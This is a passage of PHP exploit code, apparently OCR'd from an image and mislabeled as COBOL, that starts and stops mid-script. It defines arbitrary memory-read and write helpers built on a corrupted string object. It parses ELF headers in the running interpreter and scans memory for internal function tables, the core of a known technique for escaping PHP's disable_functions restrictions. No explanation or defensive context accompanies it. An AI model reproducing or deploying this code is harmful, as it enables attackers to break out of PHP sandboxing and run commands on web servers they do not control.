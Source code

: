 ```cobol
            $ptr >>= 8;
        }
        return $out;
    }
 
    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }
 
    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }
 
    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);
 
        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);
 
        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);
 
            if($p_type == 1 && $p_flags == 6) { 
 
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { 
                $text_size = $p_memsz;
            }
        }
 
        if(!$data_addr || !$text_size || !$data_size)
            return false;
 
        return [$data_addr, $text_size, $data_size];
    }
 
    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;
 
            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
```